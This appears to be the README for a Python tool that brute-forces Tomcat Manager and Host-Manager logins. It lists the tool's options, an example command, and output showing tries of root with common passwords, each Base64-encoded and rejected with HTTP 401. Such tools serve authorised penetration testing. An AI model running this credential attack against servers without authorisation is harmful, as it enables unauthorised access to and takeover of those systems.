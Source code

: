 # Dependencies

pip install termcolor

# Usage

Tomcat Manager or Host-Manager Credential Bruteforcing

options:

-h, --help                              show this help message and exit  
-U URL, --url URL                       Base URL to the Tomcat page (e.g., http://target.com)  
-P PATH, --path PATH                    Manager or host-manager URI (e.g., /host-manager/html)  
-u USERNAMES, --usernames USERNAMES     Path to file containing usernames  
-p PASSWORDS, --passwords PASSWORDS     Path to file containing passwords  
-v, --verbose                           Enable verbose output to see attempted credentials and encoded values  
-r RATE_LIMIT, --rate-limit RATE_LIMIT  Delay in seconds between requests (e.g., 0.5 for half a second)  
                        
# Example

python3 tomforce.py -U https://example.com -P /host-manager -u usernames.txt -p passwords.txt -v

[\+] Starting Brute-force Attack...                                                                        
[\*] Trying root:123456 → Encoded: cm9vdDoxMjM0NTY= → HTTP 401                                                                
[\*] Trying root:admin → Encoded: cm9vdDphZG1pbg== → HTTP 401                                                                 
[\*] Trying root:12345678 → Encoded: cm9vdDoxMjM0NTY3OA== → HTTP 401                                                          
[\*] Trying root:123456789 → Encoded: cm9vdDoxMjM0NTY3ODk= → HTTP 401                                                         
[\*] Trying root:1234 → Encoded: cm9vdDoxMjM0 → HTTP 401                                                                      
[\*] Trying root:12345 → Encoded: cm9vdDoxMjM0NQ== → HTTP 401                                                                 
[\*] Trying root:password → Encoded: cm9vdDpwYXNzd29yZA== → HTTP 401                                                          
[\*] Trying root:123 → Encoded: cm9vdDoxMjM= → HTTP 401                                                                       
[\*] Trying root:Aa123456 → Encoded: cm9vdDpBYTEyMzQ1Ng== → HTTP 401                                                          
[\*] Trying root:1234567890 → Encoded: cm9vdDoxMjM0NTY3ODkw → HTTP 401                                                        
[\*] Trying root:UNKNOWN → Encoded: cm9vdDpVTktOT1dO → HTTP 401                                                               
[\*] Trying root:1234567 → Encoded: cm9vdDoxMjM0NTY3 → HTTP 401                                                               
[\*] Trying root:123123 → Encoded: cm9vdDoxMjMxMjM= → HTTP 401                                                                
[\*] Trying root:111111 → Encoded: cm9vdDoxMTExMTE= → HTTP 401                                                                
[\*] Trying root:Password → Encoded: cm9vdDpQYXNzd29yZA== → HTTP 401
